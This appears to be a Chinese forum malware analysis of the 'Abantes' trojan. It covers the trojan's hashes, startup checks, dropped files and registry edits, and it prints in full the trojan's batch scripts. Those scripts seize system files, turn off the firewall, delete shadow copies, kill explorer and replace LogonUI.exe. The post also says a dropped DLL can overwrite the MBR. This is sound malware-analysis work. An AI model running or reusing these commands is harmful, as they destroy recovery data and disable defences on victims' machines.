# [PC样本分析] Abantes样本分析报告

- 原帖: https://www.52pojie.cn/forum.php?mod=viewthread&tid=1945580
- 抓取时间: 2026-11-01T23:47:26

## 1. 文件分析

> 名称: `Abantes.exe`
> 大小: 2271744 字节 (2218 KiB)
> CRC32: 93D8F7FE
> CRC64: C9B45FB7B64F442B
> SHA256: cf8ef09c5380a2a6e1ccb0210d6ba9707b3e07d2a650d1abe31dc4b80392f742
> SHA1: 3f5e8c3945ab7ff8d32c25a65b12d0c538ab0688
> BLAKE2sp: 9e7c5d4fa59a6fa3365f9c37fa464aff8cf24ae0ec35049cc96110f6778465cc
> XXH64: 7E25F27C8785FA03

使用 `ExeInfoPE` 打开：



`{E820EB10-301C-48D9-8E5E-09F5BE8EEDB6}.png` (245.28 KB, 下载次数: 1) [下载](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjcwOTU0Nnw4ZjBiZmQ5OHwxNzkzNTc2ODQzfDE2ODA4NnwxOTQ1NTgw&nothumb=yes) - 2024-7-19 14:23 上传

程序本身没有加壳，并且是使用 `net framework` 编写。

使用 `DNSPY` 打开：



`{DB0B5F23-8E54-46C2-8DAF-060FA8E151C9}.png` (323.71 KB, 下载次数: 1) [下载](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjcwOTU0OHxjNGFhZjY1OXwxNzkzNTc2ODQzfDE2ODA4NnwxOTQ1NTgw&nothumb=yes) - 2024-7-19 14:25 上传

程序入口点位于 `Abantes.Start.Main`，代码如下：



`{2128AF1F-047B-4F06-9A1C-6056979D8036}.png` (88.81 KB, 下载次数: 0) [下载](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjcwOTU0OXw4Nzk5OTI1YXwxNzkzNTc2ODQzfDE2ODA4NnwxOTQ1NTgw&nothumb=yes) - 2024-7-19 14:27 上传



`{DB3A45F9-C30B-45BC-9C58-2887FC2DB5FC}.png` (75.79 KB, 下载次数: 1) [下载](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjcwOTU1MHxkOWY4ZDM5NHwxNzkzNTc2ODQzfDE2ODA4NnwxOTQ1NTgw&nothumb=yes) - 2024-7-19 14:27 上传

## 代码主要功能

首先通过 `Environment.OSVersion` 和 `Version.Major`、`Version.Minor` 检查操作系统的版本。特别是检查操作系统是否为 Windows NT（`PlatformID.Win32NT`）。根据检测到的操作系统版本（`major` 和 `minor` 版本），设置字符串 `a` 来表示运行的是哪个版本的 Windows（`"10"`、`"8"` 或 `"8.1"`）。

[C#] 纯文本查看 复制代码

```csharp
// 获取当前操作系统的版本信息
OperatingSystem osInfo = Environment.OSVersion;
int major = osInfo.Version.Major;  // 获取操作系统的主版本号
int minor = osInfo.Version.Minor;  // 获取操作系统的次版本号

string a = "";  // 初始化一个空字符串变量 a

// 判断当前操作系统是否为 Windows NT 平台
if (osInfo.Platform == PlatformID.Win32NT)
{
    // 根据操作系统的主版本号和次版本号来判断具体的 Windows 版本
    if (major == 10)
    {
        a = "10";  // Windows 10
    }
    else if (major == 6 && minor == 3)
    {
        a = "8.1";  // Windows 8.1
    }
    else if (major == 6 && minor == 2)
    {
        a = "8";  // Windows 8
    }
}
```

解释：

获取操作系统信息：

- `Environment.OSVersion` 方法返回一个 `OperatingSystem` 对象，该对象包含有关当前操作系统的版本信息。

获取主版本号和次版本号：

- 从 `OperatingSystem` 对象中提取 `Version` 属性，然后分别获取 `Major` 和 `Minor` 属性。这两个属性分别表示操作系统的主版本号和次版本号。

操作系统平台判断：

- 使用 `osInfo.Platform == PlatformID.Win32NT` 条件来确保当前操作系统是基于 Windows NT 架构的。

判断具体的 Windows 版本：

- 根据主版本号 `major` 和次版本号 `minor` 的组合，来确定当前运行的是哪个具体版本的 Windows 操作系统。
- 如果 `major == 10`，则表示当前操作系统是 Windows 10，此时将字符串变量 `a` 设置为 `"10"`。
- 如果 `major == 6` 且 `minor == 3`，则表示当前操作系统是 Windows 8.1，将 `a` 设置为 `"8.1"`。
- 如果 `major == 6` 且 `minor == 2`，则表示当前操作系统是 Windows 8，将 `a` 设置为 `"8"`。

总结：

- 这段代码的目的是根据当前运行的操作系统版本来设定一个字符串变量 `a`，以便后续根据不同的操作系统版本执行不同的逻辑。这种方式可以帮助程序根据操作系统的特定行为或兼容性进行调整和优化。

无论操作系统版本如何，代码接着创建了一个 `MainThread` 的实例（可能是一个窗体或主线程）。配置这个窗体（`MainThread`）为隐藏在屏幕外（`Location = new Point(-2000, -2000)`，`Size = new Size(1, 1)`）。最后，如果确定系统为 Win7，设置 `MainThread` 的一些属性（如 `FormBorderStyle`、`ShowInTaskbar`、`StartPosition`），并使用 `Application.Run(mainThread)` 运行应用程序。

## `MainThread` 部分



`{1EC03374-CD0D-4016-B7A5-AF6AC6082755}.png` (33.32 KB, 下载次数: 0) [下载](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjcwOTU1MXwwOGFjZmYxZnwxNzkzNTc2ODQzfDE2ODA4NnwxOTQ1NTgw&nothumb=yes) - 2024-7-19 14:34 上传

这段代码的作用是检查当前计算机上是否已经运行了名为 `Abantes` 的进程，如果已经有多于一个实例在运行，则立即终止当前进程。

### 接下来检测 2 个注册表



`{1471378A-2AE3-4909-8490-B9D1E6A63230}.png` (20.98 KB, 下载次数: 1) [下载](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjcwOTU1MnxlZDcwOGJjYnwxNzkzNTc2ODQzfDE2ODA4NnwxOTQ1NTgw&nothumb=yes) - 2024-7-19 14:35 上传

这段代码用于检查注册表中是否存在名为 `Debug` 的值，并且该值不为空，然后检查的是名为 `DebugInfectMsg` 的注册表值是否为空。如果存在名为 `Debug` 的值，并且该值不为空，并且名为 `DebugInfectMsg` 的注册表值为空，就会启动调试模式，弹出一个消息框 `INFECT SYSTEM?`。点击否程序结束，点击是继续运行。



`{251813EB-2091-4072-958B-7479C2AACAD2}.png` (67.16 KB, 下载次数: 0) [下载](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjcwOTU1M3w4NTRlZDEzZXwxNzkzNTc2ODQzfDE2ODA4NnwxOTQ1NTgw&nothumb=yes) - 2024-7-19 14:37 上传

### 接下来是释放文件



`image.png` (314.88 KB, 下载次数: 1) [下载](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjcwOTU1NHw4ZGY3YjZiNnwxNzkzNTc2ODQzfDE2ODA4NnwxOTQ1NTgw&nothumb=yes) - 2024-7-19 14:39 上传

检测 `HKEY_LOCAL_MACHINE\Software\Abantes` 中的 `AbantesWasHere` 是否存在。如果不存在就释放文件：

`Directory.CreateDirectory("C:\\Windows\\Defender");`

创建目录（`C:\Windows\Defender`）。

`File.WriteAllText(text + "\\Action.bat", Resources.Action);`

用于获取文件的权限和替换 MUI 文件，内容如下：

[Asm] 纯文本查看 复制代码

```bat
@echo on

cd\&cd Windows\System32

takeown /f logonui.exe

icacls logonui.exe /granted %username%:F

takeown /f "C:\Windows\System32\en-US" /r /d y

icacls "C:\Windows\System32\en-US" /granted %username%:F /T /C

cd\&cd Windows

takeown /f explorer.exe

takeown /f regedit.exe

takeown /f HelpPane.exe

takeown /f "C:\Windows\Temp" /r /d y

takeown /f "C:\Windows\en-US" /r /d y

icacls "C:\Windows\Temp" /granted %username%:F /T /C

icacls "C:\Windows\en-US" /granted %username%:F /T /C

icacls regedit.exe /granted %username%:F

icacls explorer.exe /granted %username%:F

icacls HelpPane.exe /granted %username%:F

wmic useraccount where name='%username%' set FullName='Abantes Was Here'

wmic useraccount where name='%username%' rename 'Abantes Was Here'

NetSh Advfirewall set allprofiles state off

vssadmin delete shadows /all /quiet

taskkill /f /im explorer.exe

TIMEOUT 1

copy "C:\Windows\Defender\authui.dll.mui" "C:\Windows\System32\en-US\authui.dll.mui" /Y

copy "C:\Windows\Defender\explorer.exe.mui" "C:\Windows\en-US\explorer.exe.mui" /Y

TIMEOUT 2
```

更改文件和文件夹的所有权：

- `takeown /f` 命令用于获取文件或文件夹的所有权。
- `icacls` 用来更改文件的访问权限，允许当前用户对文件或文件夹进行完全控制（`/granted %username%:F`）。

关闭防火墙：

- `NetSh Advfirewall set allprofiles state off` 命令关闭所有网络配置文件的防火墙。

删除卷影副本：

- `vssadmin delete shadows /all /quiet` 用于删除所有卷影副本，这些副本通常用于恢复系统文件。

结束进程：

- `taskkill /f /im explorer.exe` 强制结束 `explorer.exe` 进程，这会导致桌面界面消失。

复制和替换文件：

- `copy` 命令将文件从一个位置复制到另一个位置，且使用 `/Y` 强制覆盖目标文件。

更改用户名：

- `wmic useraccount` 命令可以更改当前用户的姓名和全名。

更改系统文件和权限：

- 通过以上命令修改了与登录、资源管理器、注册表、帮助面板相关的系统文件的权限。

`File.WriteAllText(text + "\\logonOverwrite.bat", Resources.LogonOverwrite);`

用于覆盖 `C:\Windows\System32\logonUI.exe`。内容如下：

[Asm] 纯文本查看 复制代码


```
@echo on
cd\&cd Windows\System32
takeown /f logonui.exe
icacls logonui.exe /granted %username%:F
takeown /f "C:\Windows\Temp" /r /d y
icacls "C:\Windows\Temp" /granted %username%:F /T /C
copy "C:\Windows\Defender\LogonUIStart.exe" "C:\Windows\System32\LogonUI.exe" /Y
copy "C:\Windows\Defender\LogonUi.exe" "C:\Windows\Temp\LogonUi.exe" /Y
```

`takeown`: 该命令用来获取指定文件或文件夹的所有权。比如这里用来获取 `logonui.exe` 文件的所有权。

`icacls`: 用来设置文件或文件夹的访问控制列表（ACL），将完全访问权限（F）授予当前用户。

`copy`: 将一个文件复制到另一个位置，覆盖目标位置已有的文件。

具体来看，脚本的操作是：

1. 获取 `logonui.exe` 文件和 `C:\Windows\Temp` 文件夹的所有权。
2. 赋予当前用户对这些文件夹和文件的完全访问权限。
3. 然后将 `LogonUIStart.exe` 和 `LogonUi.exe` 从 `C:\Windows\Defender` 目录复制到系统文件夹和临时文件夹中，覆盖已有的文件。

`File.WriteAllBytes(text + "\\cursor.cur", Resources.creepy_mouse);`

鼠标指针


附件：`{C6DA5D2A-C156-4278-98C9-E23E84C463B6}.png` (14.28 KB, 下载次数: 0) · 下载：[下载附件](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjcwOTU1NXw0ZDNlOWI2NnwxNzkzNTc2ODQzfDE2ODA4NnwxOTQ1NTgw&nothumb=yes) · 上传时间：2024-7-19 14:43

`File.WriteAllBytes(text + "\\icon.ico", Resources.icon);`

用于修改 EXE 文件默认图标


附件：`{0AB5A152-21AF-49BC-AA14-5C98091AE64A}.png` (14.97 KB, 下载次数: 1) · 下载：[下载附件](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjcwOTU1Nnw5MWQ2NTg3N3wxNzkzNTc2ODQzfDE2ODA4NnwxOTQ1NTgw&nothumb=yes) · 上传时间：2024-7-19 14:44

`File.WriteAllBytes(text + "\\LogonUIStart.exe", Resources.LogonUI_Start);`

用于启动 `C:\Windows\Defender\LogonUI.exe`



附件：`{6E31CB85-F7A9-4723-B3C1-178735CBDAF7}.png` (368.27 KB, 下载次数: 0) · 下载：[下载附件](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjcwOTU5ODl8NTNkYTVlZjF8MTc5MzU3Njg0M3wxNjgwODZ8MTk0NTU4MA==&nothumb=yes) · 上传时间：2024-7-19 15:12

`File.WriteAllBytes(text + "\\IFEO.exe", Resources.IFEODebugger);`

映像劫持的文件

打开后提示消息框



附件：`{6CDF5D56-7D07-4A23-8823-D7F52A367EBE}.png` (14.59 KB, 下载次数: 1) · 下载：[下载附件](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjcwOTU2MXw1YmMyZGNmZnwxNzkzNTc2ODQzfDE2ODA4NnwxOTQ1NTgw&nothumb=yes) · 上传时间：2024-7-19 14:46

`File.WriteAllBytes(text + "\\Payloads.dll", Resources.Payloads);`

DLL 文件，用于在屏幕上输出特效，并且有蓝屏和覆盖 MBR 的功能



附件：`{DC107665-BA46-4C5E-8385-D760F06FAF83}.png` (119.83 KB, 下载次数: 0) · 下载：[下载附件](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjcwOTU2OXw3OWE3YjY0MHwxNzkzNTc2ODQzfDE2ODA4NnwxOTQ1NTgw&nothumb=yes) · 上传时间：2024-7-19 14:48

`File.WriteAllBytes(text + "\\Rules.exe", Resources.Rules);`

一个提示框，内容如下



附件：`{FE8EC004-EB04-48EA-89BD-F2EDCC4ACC7E}.png` (46.41 KB, 下载次数: 1) · 下载：[下载附件](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjcwOTU2NnxmY2U5YjA4Y3wxNzkzNTc2ODQzfDE2ODA4NnwxOTQ1NTgw&nothumb=yes) · 上传时间：2024-7-19 14:47

`File.WriteAllBytes(text + "\\LogonUi.exe", Resources.LogonUI);`

用于替换系统的 `LogonUI` 程序



附件：`{D73BB27B-CC55-4DBE-949A-FA63A1E1F504}.png` (43.1 KB, 下载次数: 0) · 下载：[下载附件](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjcwOTU3MHw4ZTAxOGE3MHwxNzkzNTc2ODQzfDE2ODA4NnwxOTQ1NTgw&nothumb=yes) · 上传时间：2024-7-19 14:50

```
File.WriteAllBytes(text + "\\explorer.exe.mui", Resources.explorer_exe);
File.WriteAllBytes(text + "\\authui.dll.mui", Resources.authui_dll);
```

2 个 MUI 文件。MUI 文件是 Windows 操作系统中的一种多语言用户界面（MUI）文件，它的作用是提供多语言支持。这些文件允许 Windows 操作系统根据用户选择的语言来显示不同的界面内容，比如菜单、对话框和按钮的文本。

`File.WriteAllBytes(text + "\\data.bin", Resources.data);`

MBR 数据

接下来修改桌面壁纸



附件：`{2ACB7E8B-F8EC-4F3D-8E27-D53CDDF6025F}.png` (57.16 KB, 下载次数: 1) · 下载：[下载附件](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjcwOTU3M3xjOTZkMWE5ZHwxNzkzNTc2ODQzfDE2ODA4NnwxOTQ1NTgw&nothumb=yes) · 上传时间：2024-7-19 14:51

接下来是修改注册表：



附件：`{E7EB1311-F35D-456A-A14E-0BF778189521}.png` (508.96 KB, 下载次数: 0) · 下载：[下载附件](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjcwOTU3NHwxY2U1MzNiY3wxNzkzNTc2ODQzfDE2ODA4NnwxOTQ1NTgw&nothumb=yes) · 上传时间：2024-7-19 14:52

- 修改 EXE 和 TXT 文件的默认图标。
- 通过修改 `Software\Microsoft\Windows\CurrentVersion\Policies\System` 中 `legalnoticecaption` 和 `legalnoticetext` 两个值，达到在系统登录时显示提示的效果。提示的内容如下：

`Welcome To Hell` // 对应 `legalnoticecaption`
`This Computer has been Infected by the Abantes Trojan. Hope You Enjoy.` // 对应 `legalnoticetext`

